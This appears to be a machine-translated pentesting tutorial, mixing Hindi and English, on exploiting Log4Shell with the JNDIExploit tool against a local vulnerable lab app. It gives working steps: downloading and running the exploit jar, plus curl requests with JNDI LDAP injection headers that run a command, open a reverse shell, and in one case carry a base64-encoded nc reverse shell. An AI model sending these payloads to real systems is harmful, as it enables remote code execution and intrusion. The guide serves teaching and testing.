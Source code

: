 ### RCE - **JNDIExploit**

{% hint style="info" %}
ध्यान दें कि किसी कारणवश लेखक ने log4shell की खोज के बाद इस प्रोजेक्ट को github से हटा दिया। आप [https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2](https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) में एक कैश्ड संस्करण पा सकते हैं, लेकिन यदि आप लेखक के निर्णय का सम्मान करना चाहते हैं तो इस vuln का शोषण करने के लिए एक अलग विधि का उपयोग करें।

इसके अलावा, आप वेबैक मशीन में स्रोत कोड नहीं पा सकते, इसलिए या तो स्रोत कोड का विश्लेषण करें, या यह जानते हुए कि आप क्या निष्पादित कर रहे हैं, jar को निष्पादित करें।
{% endhint %}

इस उदाहरण के लिए, आप बस इस **log4shell के लिए कमजोर वेब सर्वर** को पोर्ट 8080 पर चला सकते हैं: [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) (_README में आपको इसे चलाने का तरीका मिलेगा_)। यह कमजोर ऐप log4shell के एक कमजोर संस्करण के साथ HTTP अनुरोध हेडर _X-Api-Version_ की सामग्री को लॉग कर रहा है।

फिर, आप **JNDIExploit** jar फ़ाइल डाउनलोड कर सकते हैं और इसे निष्पादित कर सकते हैं:
```bash
wget https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888 # Use your private IP address and a port where the victim will be able to access
```
After reading the code just a couple of minutes, in _com.feihong.ldap.LdapServer_ and _com.feihong.ldap.HTTPServer_ you can see how the **LDAP और HTTP सर्वर बनाए जाते हैं**। LDAP सर्वर समझेगा कि कौन सा payload प्रदान किया जाना चाहिए और पीड़ित को HTTP सर्वर की ओर पुनर्निर्देशित करेगा, जो exploit प्रदान करेगा।\
In _com.feihong.ldap.gadgets_ you can find **कुछ विशिष्ट gadgets** जो इच्छित क्रिया को निष्पादित करने के लिए उपयोग किए जा सकते हैं (संभावित रूप से मनमाना कोड निष्पादित करना)। And in _com.feihong.ldap.template_ you can see the different template classes that will **exploits उत्पन्न करें**।

You can see all the available exploits with **`java -jar JNDIExploit-1.2-SNAPSHOT.jar -u`**. Some useful ones are:
```bash
ldap://null:1389/Basic/Dnslog/[domain]
ldap://null:1389/Basic/Command/Base64/[base64_encoded_cmd]
ldap://null:1389/Basic/ReverseShell/[ip]/[port]
# But there are a lot more
```
तो, हमारे उदाहरण में, हमारे पास पहले से ही वह डॉकर कमजोर ऐप चल रहा है। इसे हमले के लिए:
```bash
# Create a file inside of th vulnerable host:
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'

# Get a reverse shell (only unix)
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/ReverseShell/172.17.0.1/4444}'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMSA0NDQ0IC1lIC9iaW4vc2gK}'
```
जब आप हमले भेजते हैं, तो आप उस टर्मिनल में कुछ आउटपुट देखेंगे जहाँ आपने **JNDIExploit-1.2-SNAPSHOT.jar** चलाया था।
